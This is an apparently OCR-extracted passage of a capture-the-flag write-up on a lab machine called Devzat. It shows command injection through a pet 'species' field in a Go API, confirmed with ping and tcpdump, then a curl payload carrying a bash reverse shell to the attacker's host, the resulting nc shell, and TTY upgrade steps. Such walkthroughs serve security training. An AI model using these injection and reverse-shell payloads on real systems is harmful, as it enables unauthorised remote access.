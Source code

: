 

This will make the Go goes run:



    cmd := exec.Command("sh", "-c", "cat characteristics/cat; ping -c 1 10.10.14.9")



I'll have `tcpdump` listening when I send that, and it gets an ICMP
packet back immediately:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    14:25:55.580905 IP 10.10.11.118 > 10.10.14.9: ICMP echo request, id 2, seq 1, length 64
    14:25:55.580926 IP 10.10.14.9 > 10.10.11.118: ICMP echo reply, id 2, seq 1, length 64



### Shell

To convert this to a reverse shell, I'll just change the `ping` to a
[bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):



    oxdf@hacky$ curl -X POST http://pets.devzat.htb/api/pet -d '{ "name": "0xdf",  "species": "cat; bash -c \"bash -i >& /dev/tcp/10.10.14.9/443 0>&1\"" }' -H "'Content-Type': 'application/json'"



With `nc` listening, sending that just hangs. At `nc`, there's a shell:



    oxdf@hacky$ nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.11.118.
    Ncat: Connection from 10.10.11.118:51448.
    bash: cannot set terminal process group (865): Inappropriate ioctl for device
    bash: no job control in this shell
    patrick@devzat:~/pets$ 



I'll upgrade my shell with `script`:



    patrick@devzat:~/pets$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    patrick@devzat:~/pets$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg  
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    patrick@devzat:~/pets$
